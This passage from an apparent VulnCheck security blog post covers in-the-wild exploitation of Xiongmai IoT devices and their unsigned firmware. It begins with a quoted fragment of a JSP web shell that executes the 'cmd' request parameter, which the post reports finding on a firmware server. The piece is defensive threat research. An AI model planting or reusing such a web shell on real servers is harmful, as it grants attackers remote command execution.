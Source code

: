 ");\\nProcess p = Runtime.getRuntime().exec(request.getParameter("cmd"));\\nOutputStream os = p.getOutputStream();\\nInputStream in = p.getInputStream();\\nDataInputStream dis = new DataInputStream(in);\\nString disr = dis.readLine();\\nwhile ( disr != null ) {\\n out.println(disr);\\n disr = dis.readLine();\\n }\\n}\\n\\n%>\\n\`\`\`\\n\\nNeither of which inspire confidence. One “fun” fact about the firmware for these devices is that they lack a digital signature that covers the entire firmware. It’s fairly trivial to introduce malicious content to a “valid” firmware. If an attacker can upload webshells to this firmware server, can they upload malicious firmware? \*I’ve seen no evidence of this\*, and it could be that we’re seeing the results of an authorized Nessus scan. But, like I said, the state of the firmware server doesn’t inspire confidence.\\n\\n## Conclusion and About VulnCheck\\n\\nYou might not find Xiongmai vulnerabilities on the CISA Known Exploited Vulnerabilities Catalog, and it might be hard to track down high quality public exploits for some of these vulnerabilities. But they are being exploited in the wild. And with a couple hundred thousand systems internet-facing systems, Xiongmai products are of clear value to any attacker, whether that be a botnet or someone looking to pivot inward. \\n\\nVulnCheck conducted this research as part of our interest in Initial Access vulnerabilities. VulnCheck has developed proof of concept scanners and exploits, generated PCAPs, and created Suricata rules for all of the mentioned Xiongmai vulnerabilities for our Initial Access Intelligence customers.\\n

#### [Source](https://vulncheck.com/blog/xiongmai-iot-exploitation)

<br/>
---
